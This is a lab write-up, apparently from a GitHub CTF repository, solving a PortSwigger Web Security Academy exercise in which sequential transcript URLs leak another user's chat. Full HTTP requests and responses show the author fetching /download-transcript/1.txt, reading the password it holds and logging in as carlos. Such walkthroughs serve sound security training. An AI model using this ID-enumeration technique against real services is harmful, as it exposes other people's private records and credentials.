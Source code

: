 ##  This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs. Solve the lab by finding the password for the user carlos, and logging into their account. 

![image](https://github.com/Ruhanyat-994/myCTF/assets/110297704/359fae31-77e2-4c51-98c6-c898a039143f)

- We are looking into the live chat button
- Here we can find View transcript
- If we click that button its automatically downloaded a reply 
- The file name is changing in every iteration 
- it started with 2.txt
- we have to check if we can access the other files like 1.txt , 3.txt from client side 

## POST METHOD
#### Request
```sh
POST /download-transcript/1.txt HTTP/2
Host: 0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Cookie: session=tUAh9r6nR0f87d6hCAySxYX4pq9DqLHr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------58624343111989983041166148171
Content-Length: 547
Origin: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Referer: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers

-----------------------------58624343111989983041166148171
Content-Disposition: form-data; name="transcript"

CONNECTED: -- Now chatting with Hal Pline --<br/>System: --- Disconnected ---<br/>Hal Pline: I've made up my mind. I'm going travelling. Bother someone else with your ludicrous requests.<br/>CONNECTED: -- Now chatting with Hal Pline --<br/>You: hello<br/>Hal Pline: If you try and ask me a question with music at full volume, I won't hear it. Is that not obvious to you?
-----------------------------58624343111989983041166148171--

```
#### Response
```sh
HTTP/2 302 Found
Location: /download-transcript/4.txt
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```
- POST method is giving us error 
- Lets try with GET

## GET METHOD
#### Request
```sh
GET /download-transcript/1.txt HTTP/2
Host: 0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Cookie: session=tUAh9r6nR0f87d6hCAySxYX4pq9DqLHr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------58624343111989983041166148171
Content-Length: 547
Origin: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net
Referer: https://0ac5000603fa35608415c7fb003d0049.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers

-----------------------------58624343111989983041166148171
Content-Disposition: form-data; name="transcript"

CONNECTED: -- Now chatting with Hal Pline --<br/>System: --- Disconnected ---<br/>Hal Pline: I've made up my mind. I'm going travelling. Bother someone else with your ludicrous requests.<br/>CONNECTED: -- Now chatting with Hal Pline --<br/>You: hello<br/>Hal Pline: If you try and ask me a question with music at full volume, I won't hear it. Is that not obvious to you?
-----------------------------58624343111989983041166148171--

```

#### Response
```sh
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Content-Disposition: attachment; filename="1.txt"
X-Frame-Options: SAMEORIGIN
Content-Length: 520

CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is tqj8lryq2ssu4pek0qd3. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!

```
- Our user name is carlos which was given in the lab manual
- password is tqj8lryq2ssu4pek0qd3

![image-1](https://github.com/Ruhanyat-994/myCTF/assets/110297704/1d1693ec-6480-477e-b985-6e604e828414)


# Pwned!
